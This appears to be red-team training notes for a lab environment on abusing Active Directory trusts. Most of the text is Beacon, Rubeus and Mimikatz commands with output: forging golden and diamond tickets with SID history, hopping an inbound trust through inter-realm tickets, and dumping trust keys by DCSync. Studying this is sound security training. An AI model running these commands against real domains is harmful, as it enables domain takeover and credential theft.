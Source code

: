 # Forest and Domain Trusts

A trust relationship enables users in one domain to authenticate and access resources in another domain, by allowing authentication traffic to flow between them using referrals. When a user requests access to a resource outside of the domain, their KDC will return a referral ticket pointing to the KDC of the target domain. The user's TGT is encrypted using an inter-realm trust key (rather than the local krbtgt), often called an inter-realm TGT. The foreign domain decrypts this ticket, recovers the user's TGT and decides whether they should be granted access. Trusts can be:

* **One-way** allows principals in the trusted domain to access resources in the trusting domain, but not vice versa.
* **Two-way** allows users in each domain to access resources in the other.
* **Transitive** is a trust that can be chained, e.g. (domain) A trusts B and B trusts C, then A trusts C implicitly.
* **Intransitive** is trust is not implied.

The direction of trust is the opposite to the direction of access.

## Parent/Child

When a child domain is added to a forest, it automatically creates a transitive, two-way trust with its parent. (In the lab: dev.cyberbotic.io is a child domain of cyberbotic.io.)

    beacon> getuid
    [*] You are DEV\bfarmer
    beacon> powershell Get-DomainTrust
    SourceName      : dev.cyberbotic.io    // current domain
    TargetName      : cyberbotic.io        // foreign domain
    TrustDirection  : Bidirectional

If we have Domain Admin in the child, we can also gain Domain Admin privileges in the parent using a TGT with the SID History attribute (supports migrations, moving users between domains). To preserve access to resources in the "old" domain, the user's previous SID would be added to their SID History. When creating such a ticket, the SID of a privileged group (EAs, DAs, etc) in the parent domain can be added that will grant access to all resources in the parent. This can be achieved using either a Golden or Diamond Ticket:

### Golden Ticket

The only new info required from before is the SID of a target group in the parent domain:

    beacon> powershell Get-DomainGroup -Identity "Domain Admins" -Domain cyberbotic.io -Properties ObjectSid
    objectsid                                   
    S-1-5-21-2594061375-675613155-814674916-512
    beacon> powershell Get-DomainController -Domain cyberbotic.io | select Name
    Name              
    dc-1.cyberbotic.io

    PS C:\Users\Attacker> Rubeus.exe golden /aes256:51d7f... /user:Administrator /domain:dev.cyberbotic.io /sid:S-1-5-... /sids:S-1-5-... /nowrap

Then import it into a logon session and use it to access the parent DC:

    beacon> run klist
    beacon> ls \\dc-1.cyberbotic.io\c$

### Diamond Ticket

The Rubeus diamond command also has a /sids parameter, with which we can supply the extra SIDs we want in our ticket.

    beacon> execute-assembly Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:519 /sids:S-1-5-... /krbkey:51d7f... /nowrap

If dev.cyberbotic.io also had a child (e.g. test.dev.cyberbotic.io), then a DA in TEST would be able to use their krbtgt to hop to DA/EA in cyberbotic.io instantly due to transitive trust.

Other means do not require DA in the child. kerberoast and ASREProast across domain trusts, which may lead to privileged credential disclosure. In the lab, principals in CYBER can be granted access to resources in DEV, there may be instances where they are accessing machines we have compromised. If they interact with a machine with unconstrained delegation, we can capture their TGTs. If they're on a machine interactively, such as RDP, we can impersonate them just like any other user.

## One-Way Inbound

In lab: dev.cyberbotic.io also has a one-way inbound trust with dev-studio.com:

    beacon> powershell Get-DomainTrust
    SourceName      : dev.cyberbotic.io
    TargetName      : dev-studio.com
    TrustDirection  : Inbound

Because the trust is inbound from attacker perspective, it means that principals in our domain can be granted access to resources in the foreign domain. We can enumerate the foreign domain across the trust:

    beacon> powershell Get-DomainComputer -Domain dev-studio.com -Properties DnsHostName
    dnshostname      
    dc.dev-studio.com

Get-DomainForeignGroupMember will enumerate any groups that contain users outside of its domain and return its members:

    beacon> powershell Get-DomainForeignGroupMember -Domain dev-studio.com

Output shows a member of the domain's built-in Administrators group is not part of dev-studio.com. The MemberName field contains a SID that can be resolved in our current domain:

    beacon> powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1120
    DEV\Studio Admins

This means that members of DEV\Studio Admins are also members of the built-in Admin group of dev-studio.com and therefore inherit LA to dc.dev-studio.com.

To hop this trust, need to impersonate a member of this Studio Admins domain group:

    beacon> powershell Get-DomainGroupMember -Identity "Studio Admins" | select MemberName
    MemberName
    nlamb

To hop a domain trust using Kerberos, get an inter-realm key. 

1: Obtain a TGT for the target user (using asktgt with their AES256 hash):

    beacon> execute-assembly Rubeus.exe asktgt /user:nlamb /domain:dev.cyberbotic.io /aes256:a779f... /nowrap

2: Use the TGT to request a referral ticket from the current domain to the target domain:

    beacon> execute-assembly Rubeus.exe asktgs /service:krbtgt/dev-studio.com /domain:dev.cyberbotic.io /dc:dc-2.dev.cyberbotic.io /ticket:doIFwj... /nowrap

(this inter-realm ticket is an rc4_hmac though our TGT was aes256_cts_hmac_sha1; default configuration unless AES has been specifically configured on the trust, so not necessarily bad OPSEC.)

3: Use this inter-realm ticket to request TGS's in the target domain; requesting a ticket for CIFS:

    beacon> execute-assembly Rubeus.exe asktgs /service:cifs/dc.dev-studio.com /domain:dev-studio.com /dc:dc.dev-studio.com /ticket:doIFoz... /nowrap
    beacon> run klist
    beacon> ls \\dc.dev-studio.com\c$

## One-Way Outbound

If (domain) A trusts B, users in B can access resources in A; but users in A should not be able to access resources in B.In lab, an outbound trust exists between cyberbotic.io and msp.org. The direction of trust is such that cyberbotic.io trusts msp.org (so users of msp.org can access resources in cyberbotic.io).

DEV has a trust with CYBER, so we can query the trusts that it has by adding the -Domain parameter:

    beacon> getuid
    [*] You are DEV\bfarmer
    beacon> powershell Get-DomainTrust -Domain cyberbotic.io
    SourceName      : cyberbotic.io
    TargetName      : msp.org
    TrustDirection  : Outbound

Can still partially exploit this trust and obtain "domain user" access from CYBER to MSP with the shared credential for the trust. Both domains in a trust relationship store a shared password (auto-changed every 30 days) in a Trusted Domain Object (TDO). TDOs are stored in the system container and can be read via LDAP.  Here the DC in CYBER has two TDOs for its trusts with DEV and MSP:

    beacon> execute-assembly ADSearch.exe --search "(objectCategory=trustedDomain)" --domain cyberbotic.io --attributes distinguishedName,name,flatName,trustDirection

    [*] TOTAL NUMBER OF SEARCH RESULTS: 2...

Can move laterally to the DC itself and dump from memory (BUT involves memory patching, which is very risky on a DC):

    beacon> run hostname
    dc-1
    beacon> getuid
    [*] You are NT AUTHORITY\SYSTEM (admin)
    beacon> mimikatz lsadump::trust /patch

OR use DCSync with the TDO's GUID:

    beacon> powershell Get-DomainObject -Identity "CN=msp.org,CN=System,DC=cyberbotic,DC=io" | select objectGuid
    beacon> mimikatz @lsadump::dcsync /domain:cyberbotic.io /guid:{b93d2e36-48df-46bf-89d5-2fc22c139b43}
    ... [ Out ] MSP.ORG -> CYBERBOTIC.IO...    /// new PW
    ... [Out-1] MSP.ORG -> CYBERBOTIC.IO...    /// old PW

In most cases, the current [Out] key is the one to get. There is also a "trust account" which is created in the "trusted" domain, with the name of the "trusting" domain (e.g. if we get all the user accounts in the DEV domain, we'll see CYBER$ and STUDIO$, which are the trust accounts for those respective domain trusts).

    beacon> execute-assembly ADSearch.exe --search "(objectCategory=user)"
    [*] TOTAL NUMBER OF SEARCH RESULTS: 11...

